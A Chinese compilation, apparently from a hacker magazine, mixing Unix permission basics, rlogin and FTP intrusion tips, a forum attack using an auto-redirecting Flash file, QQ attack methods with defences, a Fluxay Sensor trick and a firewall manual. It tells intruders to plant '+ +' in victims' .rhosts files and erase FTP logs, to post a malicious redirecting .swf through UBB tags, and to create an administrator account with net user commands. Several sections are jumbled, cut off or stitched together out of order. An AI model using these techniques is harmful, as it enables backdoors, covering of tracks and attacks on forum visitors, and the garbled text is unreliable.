row 1 row2 row3
```

现在，我们需要学习一些关于文件许可、用户和组群的知识。

- Row #1 是文件许可。
- Row #2 是文件权限。
- Row #3 是文件的组群所有者。

文件许可被群组在 3 个不同的组群中。如果某一行开头为一个“d”，那么这是一个目录；如果不是“d”，那么就是一个文件。

```text
- --- --- ---
| | | |--------> 其它 = 任何人都能访问
| | |----------> 组群 = 通过验证的组群能够访问
| |------------> 用户 = 只有所有者才能访问
|---------------> 目录标志
- rw- r-- r--
| | | |--------> 其它 = 只能读文件
| | |----------> 组群 = 只能读文件
| |------------> 用户 = 读写文件
|---------------> 这不是一个目录
- rwx rwx r-x
| | | |--------> 其它 = 能读和执行文件
| | |----------> 组群 = 能读写并且执行文件
| |------------> 用户 = 能读写并且执行文件
|---------------> 这不是一个目录
```

所有者是在 row #2 中的用户名，而组群所有者是在 row #3 中的名字。

在 DOS 下，文件通常都有例如：a.exe、.com 或者 .bat 的扩展名来执行，但是在 Unix 下，你所需要的就是你的用户的组群、其他和组群中的 “- - x ”。

如果你拥有这些文件或者 root 权限，你就可以改变这些文件许可。

```bash
chmod oug+r filename 使所有 3 个组的文件许可都变成可读。
```

```bash
chmod og-r filename 使文件所有者对文件只能读(注意: - or + 设置文件许可是或否)。
```

```bash
chmod +x filename 使文件能够被所有人执行。
```

```bash
chown username filename 使文件被另一个用户所有。
```

```bash
chgrp groupname filename 使文件被另一个组群所有。
```

确定保持文件许可和组群的原样！否则，你将被查出来，并且被系统踢出！改变系统配置可能会破坏其他的进程，所以，收好你的“爪子”！只做你肯定的事情；只使用你熟知的命令。你可能会发现你自己会在例如: “chown -R username /*” 的命令上花去一年的时间。

## 四、Rlogin（远程登录命令）

这里，你还可以使用另一个命令，我们用 Rlogin 可以不使用口令而进入某个系统。

现在，去看看有关“Rlogin”的帮助信息。

这个命令的格式是:

```bash
rlogin -l username hostname
connecting....
password:
bash$
```

Rlogin 需要用户在其主目录下有一个文件，来告诉他们对方是什么系统。在这个文件里，远程主机会做出如下显示:

```text
username hostname (or) hostname
```

如果你在这个文件里加了 + +，它将允许任何用户不需口令进入任何主机。

这个文件如下:

```text
-----cut here-----
+ +
-----cut here-----
```

如果他们已经有了登陆权限，你就能在他们的主目录下加入“+ +”，但是记住：现在他们可能会注意到，他们不需要口令也能登陆了。你最好瞄准那些还没有 .rhosts 文件的用户。

## 五、FTP（File Transfer Protocol，文件传送协议）

另一种登陆方法就是 FTP 了。你能在 Windows 环境下登陆，也能在 UNIX 环境下登陆:

```bash
ftp ftp.domain.com
```

这个协议允许你在对方站点上下载和上传文件。在登录后，别忘了在系统中的 xferlog 消除你的登陆记录。记住：千万别 FTP 或者 Telnet 上一个已经被黑了的站点。如果你使用的是自己的系统，或者使用的是一台肉鸡，你可能会在那个站点上留下你的登陆用户名和口令。那里可能已经被放了一个特洛伊木马或者嗅探器。所以，现在一旦你登陆，就会留下你的登陆用户名和口令。如果对方是系统管理员的话，还可能对你轻易进行报复。

在 UNIX 环境下使用 FTP，我建议使用几个命令。

在你登陆，并且出现提示符后，输入下面这几个命令:

```bash
prompt
hash
bin
```

提示符将允许你输入类似于 (mget *) 或者 (mput *) 的命令，而且能够在没有所有文件权限的时候传送整个活动目录。

- hash 标志：当目录还在传送时，你能看到 hash 在屏幕上显示 ##########，并且知道当前的传送速度。
- bin：将让你通过正确的方式得到文件，如果调用一个二进制文件，就可以肯定：它们都是没压缩的。

调用命令比较容易，get filename、put filename、使用 mput，或者 mget 即可。

很多时候人们抱怨 HTML 格式语言的潜在危险性，于是，很多论坛和留言板发贴都禁止 HTML 标签，而允许更安全的 UBB 标签。可是你看过本文后一定会感叹：原来 UBB 标签也不安全。看来美观性和安全性真的是鱼和熊掌不可兼得！

## Flash(.swf)带来的危害

文 / 小木头

Macromedia Flash的出现为主页的设计带来了创新，给每一个设计主页的小版主们提供了自己的发挥空间。Flash 以矢量图设计画面放大缩小不失真、可以插入 MP3 声音基本完好、占用空间小等特点而受人喜爱，但是今天我们不谈它的优势，只说说它给我们带来的危害有哪些。

首先需要说明的是，我不会使用 Flash 制作动画和主页，这不是我的专长，我比较适合聊天。我只说说它其中的一个小功能就是自动跳转，我相信喜欢 Flash 制作的朋友都知道这个功能，那么它能给我们带来什么呢？跳转的作用就是当你打开一个.swf 的 Flash 文件时，可以自动跳转出 IE 并指向一个 URL。方法是：打开 Macromedia 的 Flash 随便制作一帧东西，双击这一帧，在弹出的“帧动作”里选“获得 URL”，再在 URL 的地址里写入你要跳转的地址，最后把你的作品保存为 test.swf。好了，问题出来了。这个功能看似是个合法的功能，但是你有没有想过，当你看到这个 test.swf 的时候，自动打开的那个 URL 地址里的主页又对你做了些什么呢？它可以通过 HTML 语言改写你的注册表、格式化你的硬盘、共享你的文件、开你的后门种木马等，只要你能想到的，它都可以完成，至于主页木马是怎么制作的，以前写过一篇这样的文章，你可以在以前的《黑客防线》中找到，有兴趣的朋友可以去看看。

好了，在很多人的意识中，只有.exe 的可执行文件或者恶意的.html 文件、.bat 等等可以对自己构成危害，现在.swf 也可以办到了。现在还有很多的留言版和论坛都支持 Flash 的贴图，如果我们把这个.swf 贴上去，知道后果是什么样子的吗？就是当你打开这个帖子的时候，IE 在无任何提示的情况下跳转到你事前设定好的 URL 的 HTML 页面上去了，而帖子的内容就被你的页面替换了。试想，如果你在一个日访问量几万人的论坛里贴上一个含有恶意的帖子时会怎样？以前有很多人问黑论坛和留言版的方法，多半的方法是构造错误的语句让它执行，不过一般论坛都已经可以过滤非法字符(如：<!@#~%$>等等)，可是这回的跳转是写在.swf 里的，论坛和留言版是没有办法过滤的，只能禁止贴 Flash 的帖子。最后四处看了看，还是有一多半的论坛没有过滤，这个时候你就可以试着贴一篇这样的帖子：

```
[swf]http://go8.163.com/forevergujia/bbbb.swf[/swf]或
[Flash]http://go8.163.com/forevergujia/bbbb.swf[/Flash]
```

....(方法不见得一样，视论坛和留言版自己的方法而定)

说明：其中 bbbb.swf 是我做的一个自动跳转到自己论坛的.swf。

## 使 linux 系统对 ping 不反应

在 linux 里，如果要想使 ping 没反应也就是用来忽略 icmp 包。
可以用：

```
echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all
```

若想恢复就用：

```
echo 0 > /proc/sys/net/ipv4/icmp_echo_ignore_all
```

## linux 下.a文件.o文件和.so文件的区别

- .o 就相当于 windows 里的 obj 文件;
- .a 是好多个.o 合在一起,用于静态连接;
- .so 是shared object,用于动态连接的,和dll差不多。

> 同是关于QQ安全的文章，前几期的《教你辨别真假QQ》和《砍断伸向QQ的3只黑手》虽然写得比较详细、具体，但针对的只是QQ安全的其中一个方面，其实威胁QQ安全有很多方面。本文比较全面、系统地介绍了这些内容，是QQ族们值得一看的文章。


# 防黑篇

文/心羽

QQ是腾讯公司开发的网络即时聊天系统，上网的人无人不晓。但是QQ面临着严峻的安全挑战，从QQ出生的那天起黑客就对其“非常感兴趣”，网上针对QQ的黑客工具随便就可找到一大堆。广大网友们可谓深受其害。本人希望通过此文的刊发，揭露黑客攻击QQ的惯用伎俩，并提出相应的防范措施。

黑客攻击QQ手法可谓是五花八门。就其危害的程度和攻击手段的不同，我将它大致分为4类:

- (1) 端口攻击;
- (2) 消息轰炸;
- (3) 信息窃取;
- (4) 密码盗窃。

在具体介绍这几类攻击方法之前，先简单介绍一下QQ的基本通信原理。

黑客对QQ的攻击之所以频频得手，与QQ采用UDP数据包通讯有很大关系。用户数据包协议UDP/(User Datagram Protocol)也是使用IP协议在计算机数据交换时提供一定服务的通信协议,但它是一种无连接的数据报协议，只是简单地把数据发送到目的主机的端口上，不像TCP那样提供包的分组、组装和排序服务，也不需要经过“3次握手”认证，所以其安全性不如TCP。但网络程序要加快处理速度，使用UDP就比TCP好得多，这也是腾讯公司选择UDP的主要原因。

QQ的默认接收通信端口是4000。其传送消息时，如果通讯双方能直接通讯，消息就直接发送到对方；如果重试N次后，则通过QQ服务器转发。再看一下QQ的IP数据包格式:

| IP 数据包 |
|---|
| IP 报头 | UDP 数据包 |
| | UDP 报头 | QQ 数据 |

IP报头的信息包括源地址、目的地址、所使用的协议。

UDP报头的信息包括源端口、目的端口、数据长度(最小的数据报长度为8)、校验码。

QQ数据信息基本包括时间、双方的QQ号、具体的信息等。

当然，这里介绍的是简化了的模型。为了提高安全性，新版的QQ使用了复杂的加密技术，所以新版QQ的实际UDP数据包要复杂得多，但基本原理还是一样的。

## 一、端口攻击

攻击QQ端口的工具网上流传很多，只要填入对方的IP(黑客往往通过截取和分析QQ数据包获得对方IP地址，详看本文第三部分)及端口(默认是4000)就可以开始攻击了。被攻击者轻者掉线，重者QQ出错、关闭甚至系统瘫痪。这类攻击的原理是向QQ默认的通信端口发送大量或特定的数据包以达到攻击目的。具体有UDP Flood攻击和利用QQ漏洞发动的DoS攻击。

UDP Flood攻击一般不会有任何消息出现，它是在短时间内向对方的4000UDP端口发送大量的任意消息的UDP数据包以阻塞通讯。攻击的结果是:QQ消息发送困难、频繁掉线。现在网上常见的此类攻击工具有UDP Flooder。

再说说利用QQ漏洞发动的DoS攻击。QQ的出现只有几年时间，虽然不断在完善，但其不可避免地存在一些安全漏洞。黑客制造出针对这些漏洞的特定的数据包发给QQ，使QQ出错或瘫痪。

### 攻击实例:

Qsydp.exe(Q死一大片)就是利用一个QQ漏洞进行端口攻击的工具，如图1所示。其攻击原理是:UDP数据报的最小长度为8，黑客却故意制造出长度小于8的UDP数据包发给QQ，而QQ2000b版无法处理这种数据包而出错，并自动关闭。可怕的是它还能对一个网段内的机子进行群发。不过在QQ2000C版中已经消除了这个漏洞，所以还在用老版本QQ的网友们快去下载最新版本。


### 防御措施：

安装防火墙软件进行监控是对付端口攻击其中一个方法。其实从上面的介绍中我们已经知道，要对QQ进行端口攻击，必须要知道对方IP地址及端口号才行。缺少其一，攻击就无法进行。所以我们只要隐藏自己的IP地址或改变QQ默认通讯端口号，就能有效防御端口攻击。

如何才能隐藏自己的IP，防止黑客的IP探测呢？我们可以通过SOCKS代理上QQ，这样攻击者探测到的只是代理服务器的IP地址。具体方法如下：

- 1. 找一个免费的SOCKS代理服务器，或自己动手做一个。这里介绍一个功能完备的Socket的代理软件SocksOnline。找一台Internet上的主机，在其上运行SocksOnline，第一次运行需要设置登录账号，否则系统不能正常启动。启动后如图2所示。


进入SocksOnline的“设置→系统设置→系统服务设置”后，将“只供本机使用”项消掉，使其允许远程连接。再进入SocksOnline“设置→系统设置→用户服务设置”，在“主机”里填入sz6.tencent.com（腾讯的QQ服务器地址），“端口”里填入8000（QQ服务端口）。“本机服务端口”：8000，校验一下：成功，如图3所示。这样，一台QQ的Socket就设置好了。


- 2. 在本地打开QQ，进入“注册向导”。进入登录界面的“网络设置”。如图4所示。选定“使用socket 5代理”，在“防火墙地址”里填入代理服务器地址；在“端口号”里填入代理端口号。“校验用户名和密码”没有设置，不用填。按“测试”，QQ提示代理服务器正常，就说明能用了。接下来如何登录QQ不用我说了吧？


如何修改QQ的通讯端口呢？我们可以借助广外女生小组开发的QQ端口号修改器QQPort.exe，下载地址为http://www.ttian.net/download/show.php?id=152&down=1，把QQPort.exe从压缩包解压缩到安装QQ的文件夹下，使QQPort.exe与QQ2000b.exe处于同一文件夹。打开QQPort.exe，它会询问你想要修改为什么端口号？随便选一个端口，确认后按回车，QQ的通讯端口就修改完成，如图5所示。注意：QQ2000B1220端口号修改器主要用于修改QQ2000B 1220版本。


## 二、消息轰炸

QQ消息轰炸是在瞬间内发送大量的垃圾信息，使目标应接不暇而无法正常使用。这种攻击其实和发普通消息是一样的，只是它的速度快，一秒能发好几条消息。被攻击者虽然不会有什么大的损害，但在短时间内受到成百上千条消息的骚扰，其讨厌程度可想而知，想正常的聊天显然是不行了。

根据其发送原理的不同，网上流行的消息轰炸器可以大致分为两类。一类是UDP欺骗包消息轰炸。由于早期的QQ薄弱的加密机制和UDP自身的缺陷，黑客很容易造出完全符合QQ的UDP格式的数据包，它可以向“任意的QQ号码”发送消息，同时也可以伪造“任意的QQ号码为发送号码”，像成都小虫的“OICQSEND”就是此类工具。不过值得庆幸的是，早在QQ的99C版中就使用了RSA加密算法，好友之间发送的消息经过密钥加密，要发消息，必须知道密钥，所以今天这种消息轰炸方法已经很少见了。另一类是利用QQ本身的消息发送框进行的消息轰炸，也是现在网上流行的QQ消息轰炸法。它利用QQ的消息发送框自动写入消息，自动发送，再自动写入，类似于聊天室的刷屏器原理。聪明的朋友可能已经想到了，这种消息轰炸法已不能像UDP欺骗包轰炸那样随心所欲、想炸谁就炸谁了，它必须对方通过你的验证，有了消息发送框才行。

### 攻击实例：

“飘叶千夫指”就是一个利用QQ本身的消息发送框进行消息轰炸的消息轰炸器，具有消息库、循环发送、设置发送时间间隔等功能，如图6所示。


### 防御措施：

无论对付哪一种消息轰炸法，加强QQ的自身安全设置都是有效的方法。进入QQ的“个人设定”的“安全设置”，修改身份验证值为：“需要身份认证才能把我加为好友”。再进入“系统参数”的“参数设置”，将“拒绝陌生人消息”选项选中，如图7所示。这样可以在一定程度上防止一些不速之客找上门。其次，加强自身的安全意识，不要随便通过陌生人的验证、把陌生人加为好友。这样，如果哪一天有“好友”对你发动消息轰炸，也没什么好怕的，先下线，再上线，把他的头像拖到黑名单就了事了，等他发够了再让他回来。


## 三、信息窃取

黑客窃取QQ信息的对象主要有IP地址、端口号和聊天、好友信息。黑客窃取IP地址、端口往往是为了发动一次别的进攻，如端口攻击。而窃取聊天信息则是一些无聊之辈想满足自己窥人隐私的欲望。

#### IP地址及端口号信息的窃取

黑客只要向你发送一个消息，就可以监视UDP数据包而获得你的IP及通讯端口。图8就是一个监听UDP包得到IP地址及端口的例子。其实，如果在同一网段内，黑客不用发送消息，直接监听就可以知道用QQ通讯双方的IP地址，然后发动攻击。


### 聊天记录、好友信息等的窃取

网上存在不少喜欢窃取别人聊天信息的家伙。他们采取的方法如下：

- 1. 监听法。在早期的QQ版本中，好友之间的信息往来是以明文形式出现的。也就是说，你只要拿个支持中文显示的嗅探器，就能看到他们的聊天记录了。
- 2. 本地聊天记录文件偷看法。QQ的个人聊天记录是以QQ特有的文件形式保存在客户机上的，并受密码机制的保护。有人就通过这点，绕过密码验证偷看别人的聊天记录。如QQMSReader(聊天记录阅读器)就是此类工具。不过随着QQ加密机制的增强以及客户机与服务器、客户机与客户机之间的信息传送使用128位的密钥加密，这两种方法已经基本上被杜绝了。
- 3. QQ 信息窃取木马。这种木马往往兼具窃取聊天信息和 QQ 密码等多重功能，是现阶段 QQ 信息窃取的头号杀手。它们会把窃取到的信息和密码自动发送给攻击者。攻击者只需要每天收看一下邮件就行了。

的限制，无疑更是雪上加霜。所以在介绍黑客惯用的 QQ 密码盗窃方法前，提醒广大 QQ 族们千万千万要去腾讯网站申请密码保护，同时别把取回 QQ 密码用的信箱随便填在 QQ 的个人通讯地址里。

### 防御措施：

黑客惯用的 QQ 密码盗窃方法主要有：

- 1. 关于 IP 的信息探测。由于协议本身的原因(不是说改就能改的)很难防止，但我们在第一部分介绍的用 SOCKS 代理上 QQ 不失为对付其的一种好办法，如果你觉得一次代理不够安全你可以用多次 SOCKET 数据转发。
  - (1) 欺骗法;
  - (2) 密码暴力猜解法;
  - (3) 木马病毒窃取法。
- 2. 关于对聊天记录、好友信息等的窃取的防御。由于新版 QQ 采用了 RSA 密钥对其消息进行加密(即使攻击者知道了全部的加密算法也无法对其他用户构成安全威胁)和对其客户机文件的复杂的加密技术，基本杜绝了那些信息监听、信息泄密的隐患。我们现在主要要防范的是 QQ 信息窃取木马。木马无处不在，除要“防范于未然”(详见下一节)，还要定期检查是否有可疑进程。这里向大家推荐一个进程管理器：柳叶眼 eye400。
  - 1. 欺骗法。可能有人不信，怎么骗呀？其实欺骗方法很多。攻击者常常冒充腾讯公司给用户发中奖等消息，要求用户提交密码和保密信箱等资料，以此骗得密码。也有攻击者会假装好心给你一个号码好点的 QQ，然后催促你改密码，通过取回密码功能得到你改的新密码。一般人密码通常也是通用的，这样他就骗得了你的 QQ 密码，结果号码好点的 QQ 没拿成，自己的 QQ 也丢了。
  
  下载地址：http://www.ttian.net/ 这个很好的进程管理工具，能自动标识系统文件、危险文件，自定义正常进程等，如图 9，它发现一个 QQ 木马。
  - 2. 密码暴力猜解法。就是用一些 QQ 密码破解软件使用穷举法一个一个的试，其破解所需时间与你密码的强度有很大关系，一些既短又简单的密码在短时间就可以破解出来，而强度大的密码需要几个月甚至几年才行。具体又有两种：一种是猜解本地用户的密码文件；另一种是远程对 QQ 服务器展开猜解。这两种密码暴力猜解法无疑是本地猜解的速度快得多，而远程猜解需要上网。但猜解本地用户的密码文件需要拿到用户的 QQ 密码文件才行。


  - 3. 木马病毒窃取法。如果问现在什么木马最多？回答肯定是 QQ 木马。当用户运行某些来历不明的软件或打开网友发来的附件时，QQ 木马就偷偷潜伏到你的计算机里，开始记录你的 QQ 号码和密码，并将其发送到攻击者的信箱。这种方法简单，而且一劳永逸，成为现在最受黑客欢迎的密码盗窃方法。介绍完了 QQ 木马，还有某些蠕虫病毒也能窃取 QQ 密码，如 worm.Gop.3 (QQ 窃手) 蠕虫病毒就是以窃取 QQ 密码为目的，与 QQ 木马相比，更令人讨厌的是它能自动传播。

## 四、密码盗窃

### QQ 木马实例：

QQ 的密码盗窃是黑客对 QQ 最常见也是危害最大的攻击手段，也是 QQ 防黑的重中之重。前面介绍的三种的攻击虽然利害，但总还是“留得青山在，不怕没柴烧”。但 QQ 的密码盗窃却连“整座山”都给拔掉了，加上现在腾讯公司对 QQ 申请

QQ 杀手 4.97，它是强劲的本地 QQ 盗号工具，准确记录 QQ 登录时的号码和密码，并保存在指定文件和发送到指定邮箱，如图 10 所示。

### 防御措施：

- 1. 申请 QQ 密码保护，尽快升级到 QQ 的最新版本。
- 2. 不要轻信一些来自 QQ 的诱惑性消息，“天下没有免费的午餐”。
- 3. 密码设置要在便于记忆的基础上尽量的复杂一点，最好能是数字、字母、字符混合使用，并定期改变密码。
- 4. 不要随便运行来历不明的软件，定期更新杀毒软件库，经常用进程管理软件查看是否有可疑进程。
- 5. 在网吧等公共场所上 QQ 时，先用进程管理软件查看有没有被下 QQ 木马（实际这样做可能比较麻烦，这里教大家一招：由于大多数 QQ 木马一般都是记录键盘而无法记录鼠标轨迹，所以管它有没有木马，先乱敲一通键盘，再把账号和密码颠来倒去地输，最后鼠标调整一下，让它记吧）。上完 QQ 后，删除 QQ 文件夹下目录名是你的 QQ 号的文件夹。

## 流光4.7一个小秘密

文/林荫

新版的流光相信不少读者用过，其新增的许多功能让人眼前一亮!许多读者应该都能熟练操作了，但流光中的一个小秘密不知道大家是否知道呢?

新版的流光增加了不少好东西，特别是 Sensor，我决定对它研究一番。在安装了流光的 4.7 的 Sensor 工具之后，用 TELNET 连接自己的机器，端口为安装流光的控制端口，我的为端口号为 7。

在命令提示符下敲入:

```
telnet 127.0.0.1 7
```

提示成功!

连接上自己的本地机器显示 Sensor Console Password:

按照提示敲入安装 Sensor 时的密码 **** 出现:

```
Banyet Soft Labs. 1995-2002 All Rights Reserved.
Written by Assassin, Fluxay Sensor Console Build 0475
Sensor Console
```

进入了自己的机器，再输入:

```
dir c:\
```

看到了自己 C 盘下的所有文件。

再想想，如果我输入 `net user x xhacker / add` 会怎么样?

试了一下，提示命令完成!

去计算机管理下一看用户，多了个名叫 x 的用户。不过就是个 USER 权限。

升升级看看，`net localgroup administrators x /add`

又提示命令完成成功，再去看了下 x 的权力，已经到了 ADMIN 的权限了。

这么说，我对他的机器有了完全的控制权啦!

总结:我看了流光的说明后才知道这是小榕大哥是用来管理远程 Sensor，但我们稍微加工一下，又是一个帮助我们入侵的好方法，所以，大家在安装流光 Sensor 时候的密码一定要小心，不能过于简单。据我所知，大部分的人会在自己的机器上装上流光的 Sensor 远程主机服务（本人不提倡）。不过，这个方法有个不足之处，就是我们在出现 Sensor Console 后，输入的所有命令全部无法看见，所以我老是敲错。


## 结束语:

本文虽然提及了大部分黑客攻击 QQ 的原理和手法，但一开始我们就说黑客对 QQ 的攻击手法层出不穷，防不胜防。由于笔者水平有限，难免有不少“漏网之鱼”未能涉及。当然，网络没有绝对的安全可言，除了拔掉网线。尽管如此，本文提及的 QQ 的防御方法还是足以抵御大部分的攻击。“害人之心不可有，防人之心不可无”，网上什么样的人都有，网友们在上 QQ 时应该提高警惕，做好防御工作。

## 网络安全的双重保护
## ——费尔个人防火墙
## XFILTER Personal Firewall使用指南


目前的PC防火墙类型主要分为网络层和应用层，常见的“天网个人防火墙”属于应用层防火墙，“黑冰”(BlackICE)属于网络层防火墙。这两种类型的防火墙各有优势，也各有其欠缺之处。如果结合它们各自的优点，摈弃缺点，开发出来的防火墙产品就能更好地满足个人的需求。费尔个人防火墙(XFILTER Personal Firewall)就是按照这个要求开发出的新一代PC防火墙。

采用Winsock 2 SPI进行网络数据控制、过滤；二是核心层采用NDIS HOOK进行控制，尤其是在Win 2000下，此技术属微软未公开技术，它比微软公开的TDI和IMD有一定的优势。微软公开的TDI不能拦截接收的ICMP封包，IMD自动化安装困难。

费尔个人防火墙采用两种封包过滤技术：一是应用层封包过滤，采用Winsock 2 SPI；二是核心层封包过滤，采用NDIS-HOOK。

Winsock 2 SPI 工作在 API 之下、Driver 之上，属于应用层的范畴。利用这项技术可以截获所有的基于 Socket 的网络通信。比如IE、Outlook 等常见的应用程序都是使用 Socket 进行通信。采用Winsock 2 SPI的优点是非常明显的：其工作在应用层以 DLL 的形式存在，编程、调试方便；跨 Windows 平台，可以直接在 Windows 98/ME/NT/2000/XP 上通用，Windows 95 只需安装上 Winsock 2 for 95，也可以正常运行；效率高，由于工作在应用层，CPU 占用率低；封包还没有按照低层协议进行切片，所以比较完整，很容易做内容过滤；做防色情之类的软件，不用根据具体的浏览器进行分别编程，既简单又安全。

## 一、基本功能

费尔个人防火墙基本功能包括应用层/核心层双重过滤，完全管控TCP/IP网络封包；防出墙/防入墙双墙防护，防止信息泄漏和外来攻击；对网上邻居共享资源的全面控管，做到局域网安全；对ICMP(PING)的控制，有效保护IP地址安全；功能强大的日志记录功能。

另外，费尔个人防火墙在人性化上作了优化，其人性化功能包括网络状态指示器、流量示波器、封包监视器，生动的展现网络状态；全程交互式管控中心自动生成器，对任何情况的网络动作都可以动态、交互式、自动生成管控中心，最大程度地方便操作；人性化的用户界面融合强大的控管能力，既可满足一般用户简单易用的需求，也可以让专业人士进行复杂的安全防范配置。

生动、易用、美观、功能强大的费尔个人防火墙，将为你营造一个充满乐趣的安全网络。

## 二、主要技术特点

费尔个人防火墙的主要技术特点：一是应用层

## 三、下载及安装

可以直接到网站“http://www.xfilter.com”下载，软件为汉语版本。根据使用的操作系统，下载相应程序。

运行安装程序，xfilter2.exe，按提示的对话框进行操作即可完成安装，安装后需要重新启动计算机。标准版用户在第一次启动时会要求进行用户注册，用户注册是完全免费的。如果注册没有成功，则在每次启动时都会询问，直到注册成功为止。其他版本用户，按一定规律提示用户购买注册码，并完成注册。

安装之后，如果要卸载的话，一定要按照开始 -> 程序 -> 费尔个人防火墙 -> 卸载 费尔个人防火墙，或者控制面板 -> 添加/删除程序 -> 费尔个人防火墙 -> 删除完成卸载，而不能直接删除文件。直接删除文件无法恢复系统配置，可能导致网络瘫痪，所以一定要使用卸载程序卸载。


安装完成后，会在桌面右下角生成一个小图标（如图1），表示程序已经在后台运行。

鼠标右击此图标，选择“主界面”，出现程序主界面（如图2）。


图2

## 四、设置

### 1. 使用封包监视器

- （1）应用程序封包监视：除了监视一般应用程序的网络封包之外，还监视系统程序产生的网络封包。另外，网上邻居的计算机名字服务（137端口）和数据报服务（138端口）也在此处监视。（如图3）。
- （2）网上邻居封包监视：仅用来监视网上邻居资源共享的网络封包，端口为139。


图3

- ICMP 封包监视：用来监视 ICMP 封包，主要应用是 PING 应用程序。可以利用 ICMP 监视器，分析是否有人在探测自己的 IP 地址。
- （3）侦听端口：列举出本地计算机的侦听端口。
- （4）当前连线：列举出本地计算机当前存在的网络连线。当网络连线结束后会将封包发送到应用程序封包监视器或者网上邻居封包监视器中，并根据配置保存日志。

注意：由于 TCP 连线产生数据封包较多，如果完全监视将严重影响效率，所以，对于 TCP 连接，仅仅监视了连接的建立和结束时的封包。另外，将实际流量全程监视并在连线结束后显示在封包监视器中，并根据配置保存到日志。在封包监视中使用了一些关键字标识封包状态，比如：RECV 表示接收；RDSD 表示发送/接收。在该软件的帮助中有详细的关键字说明。

### 2. 设置安全等级和工作模式

图2 的状态指示实际上是一个示波器，示波器以图形的方式显示网络流量状态，可以比较直观地观测到网络使用情况。当网络流量超过示波器的最大显示范围时，默认按示波器的最大值显示。

在状态指示页面中显示了比较关心的参数信息，其中包括时间、流量、放行封包、拒绝封包、工作模式、管控中心状态、安全等级等信息。根据这些参数可以综合判断网络使用情况以及控管程度和安全等级。进入“状态指示”页面，拖动“安全等级”的滑动条便可以进入相应的安全等级。安全等级分为3级：

- 高：如果管控中心为询问状态，当弹出询问对话框时，会自动生成比较严格的管控中心。比如应用程序IE.EXE向IP为192.168.0.1的80端口发出连接请求，则自动生成对IE.EXE、192.168.0.1、80同时匹配的管控中心。也就是说，当IE.EXE再访问192.168.0.1的81端口都将再次被询问，这样配置的安全等级较高，但同时会造成繁琐的询问，用户可以根据需求选择此项设置。
- 中：网上邻居和ICMP连出时，如果需要询问，默认放行。另外，如果管控中心为询问状态，当弹出询问对话框时，会自动生成一般的管控中心。比如应用程序IE.EXE向IP为192.168.0.1的80端口发出连接请求，则自动生成仅对IE.EXE匹配的管控中心。也就是说，当IE.EXE再访问192.168.0.1的81端口将符合刚才生成的管控中心，这样配置的安全等级适度，询问次数适度，可以满足一般的安全需求，作为默认配置。
- 低：当遇到需要询问时，不再弹出询问对话框，而是默认放行。如果自己的管控中心已经较为全面，可以选择这个设置，这样在保证安全性的同时，又可以减少询问的麻烦。这样做安全等级较低，不过可以带来使用上的方便，用户可以根据需要选择此项配置。

注意：安全等级设置没有直接改变管控中心设置，但是它的等级高于管控中心，优先于管控中心进行检查。通常情况下，安全等级与管控中心配合执行，执行状态如上面的解释。

总工作模式分为3类，分别为：

- 拒绝所有：阻断所有网络连接；
- 过滤：根据管控中心配置进行过滤；
- 放行所有：放行所有网络连接。

在主界面右下方有红、黄、绿3个彩色指示灯，红色代表拒绝所有；黄色代表询问；绿色代表放行所有；当前选中的用高亮表示。单击指示灯便可进行相应的工作模式。也可以在系统任务栏本软件的图标上单击鼠标右键，在弹出菜单中设置工作模式。

### 3. 设置过滤模式

#### （1）设置应用程序过滤模式

应用程序过滤模式包括：

- 无限制：放行所有应用程序过往封包；
- 禁止连入：拒绝所有连接本地应用程序的请求；
- 禁止连出：拒绝所有本地应用程序发出的连接请求；
- 双向禁止：拒绝所有应用程序的连入和连出请求；
- 使用管控中心：根据管控中心对连线进行合法性检查，如果没有匹配的管控中心，将按照配置发出询问、直接拒绝或者直接放行。

进入“管控中心”的“应用程序”页面，设定相应的过滤模式，按“应用”按钮保存设置，或者按“撤消”按钮取消设定。见图4。


- 站点：站点名称；
- 动作：设定于这条规则匹配时如何处理，放行或者拒绝；
- 备注：用来说明这条规则的含义。

注意：站点名称比较时不是采用全字匹配，而是检查 URL 中是否含有设定的站点名称。比如：设定 www.xfilt.com，则 www.xfilt.com/default.asp 同样会被控管。同理，如果设定 xfilt.com 则 images.xfilt.com，同样会被控管。所以，可以利用这一个特性限定整个站点。

#### （3）网上邻居过滤模式

网上邻居过滤模式包括：

- 无限制：放行所有访问网上邻居共享资源的过往封包；
- 禁止连入：拒绝所有连接本地共享资源的请求；
- 禁止连出：拒绝所有本地向远端发出的共享资源请求；
- 双向禁止：拒绝所有共享资源的连入和连出请求；
- 使用管控中心：根据管控中心对共享资源的使用进行合法性检查，如果没有匹配的管控中心，将按照配置发出询问、直接拒绝或者直接放行。

要设置网上邻居过滤模式，进入“管控中心”的“网上邻居”页面，设定相应的过滤模式，按“应用”按钮保存设置，或者按“撤消”按钮取消设定。见图 7。


- 网上邻居管控中心包括的内容包括：
  - 网上邻居：设定要控管的网上邻居主机名称，* 代表所有网上邻居；另外，可以采用自定义模式设定列表中没有显示的网上邻居；
  - 访问时间：用来设定要控管的时间类型；
  - 连线方向：用来设定要控管的连线方向；
  - 管制动作：设定于这条规则匹配时如何处理，放行或者拒绝；
  - 备注：用来说明这条规则的含义。

#### （4）ICMP 过滤模式

ICMP 过滤模式包括：

- 无限制：放行所有 ICMP(PING)过往封包；
- 禁止连入：阻止 PING 入；
- 禁止连出：阻止 PING 出；
- 双向禁止：拒绝所有 ICMP(PING)过往封包；
- 使用管控中心：根据管控中心对 ICMP 封包进行合法性检查，如果没有匹配的管控中心，将按照配置发出询问、直接拒绝或者直接放行。

要设置 ICMP 过滤模式，进入“管控中心”的“ICMP”页面，设定相应的过滤模式，按“应用”按钮保存设置，或者按“撤消”按钮取消设定。见图 8。


- ICMP 管控中心包括的内容：
  - 远端网络：用来设定要控管的目的网络类型；
  - 访问时间：用来设定要控管的时间类型；
  - 连线方向：用来设定要控管的连线方向；
  - 管制动作：设定于这条规则匹配时如何处理，放行或者拒绝；
  - 备注：用来说明这条规则的含义。

注意：总工作模式的优先级最高，凌驾于其他过滤模式之上。如果总工作模式不是过滤，则其他过滤模式将被忽略。其它的过滤模式为同等级别，互不影响。

除了设置预定管控中心的过滤模式外，用户还可以增加、删除和修改管控中心。具体做法是进入“管控中心”页面，选择要增加管控中心的类别，目前有“应用程序”、“WEB 站点”、“网上邻居”和“ICMP”，按“增加”按钮，会弹出相应的管控中心编辑对话框，按自己的需求设定管控中心，然后按“确定”按钮返回。新的管控中心显示在列表框中，此时管控中心并没有被真正的保存和应用，要想保存和应用新添的管控中心，必须按“应用”按钮。如果要撤销所做的修改，按“撤消”按钮。

